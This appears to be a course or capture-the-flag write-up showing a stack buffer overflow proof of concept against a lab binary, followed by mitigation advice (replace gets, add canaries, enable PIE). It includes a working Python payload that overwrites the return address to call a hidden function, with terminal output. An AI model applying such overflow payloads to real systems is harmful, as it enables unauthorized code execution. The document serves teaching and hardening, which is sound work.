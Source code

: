 # Proof of Concept

Basically there is no function that is called in the main function, in order to trigger the function that is able to fetch the flag, you need to measure the stack size and override the return pointer (RIP) to the target function address. The tricky place is that it contain multiple global variable that needs input from stdin, newcommer may feel confused to pass the hex format address into the stdin.

```
┌──(shan㉿host-vlah3-46)-[~/project/cs577]
└─$ python -c 'print "\x68\x69"+("B"*106)+"\xc5\x12\x40\x00\x00\x00\x00\x00"' | ./1.strip-new 
call my name if you can
let's begin by say 'hi':
my name:
[+]called by:uid=1000(shan) gid=1002(h2th3k) groups=1002(h2th3k),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner)
zsh: done                python -c 'print "\x68\x69"+("B"*106)+"\xc5\x12\x40\x00\x00\x00\x00\x00"' | 
zsh: segmentation fault  ./1.strip-new
```

# Mitigation suggestions vs vulneralbility:

1.Replace dangerous functions like gets with fgets

```
[0x004010a0]> afl
0x004010a0    1 42           entry0
... ...
0x00401030    1 6            sym.imp.puts
0x00401040    1 6            sym.imp.system
0x00401050    1 6            sym.imp.pclose
0x00401060    1 6            sym.imp.fgets
0x00401070    1 6            sym.imp.strcmp
0x00401080    1 6            sym.imp.gets
0x00401090    1 6            sym.imp.popen
...
```

2.Add checker for the buffer boundary of the stack object. And enable canary when compiling the binary.

3.Enable `-PIE` to support the ASLR. Redirect jumpping will be harder. (Still has SIGSEGV but the flag won't be printed out)

```
[0x004010a0]> afl
...
0x004012c5    4 179          sym.callme
...

┌──(shan㉿host-vlah3-46)-[~/project/cs577]
└─$ python -c 'print "\x68\x69"+("B"*106)+"\xd8\x12\x00\x00\x00\x00\x00\x00"' | ./1-withpie
call my name if you can
let's begin by say 'hi':
my name:
zsh: done                python -c 'print "\x68\x69"+("B"*106)+"\xd8\x12\x00\x00\x00\x00\x00\x00"' | 
zsh: segmentation fault  ./1-withpie
```

